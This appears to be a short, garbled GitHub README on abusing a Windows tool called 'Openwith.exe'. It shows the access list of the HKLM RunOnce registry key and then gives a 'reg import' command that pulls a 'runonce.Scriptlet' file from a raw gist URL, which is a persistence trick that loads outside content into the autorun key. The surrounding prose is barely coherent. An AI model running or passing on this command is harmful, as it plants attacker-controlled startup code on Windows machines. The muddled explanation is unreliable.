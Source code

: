### Openwith  Microsoft/Tools 
Openwith.exe is a tool for operating the program according to content policies let's go for example
If you want open anything you can put it at Openwith.exe let's go to initiative the experience

```
PS C:\> Get-ACL -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         null Allow  ReadKey
Audit  :
Sddl   : null



PS C:\>
```

## At this point don't get away that you can import this registry file
C:\> reg import 
https://gist.githubusercontent.com/homjxi0e/66555fedc78af49635b2e5dfea9dd1ae/raw/60b80e88c66fe58d2d906bb24f32925edd2fe025/runonce.Scriptlet
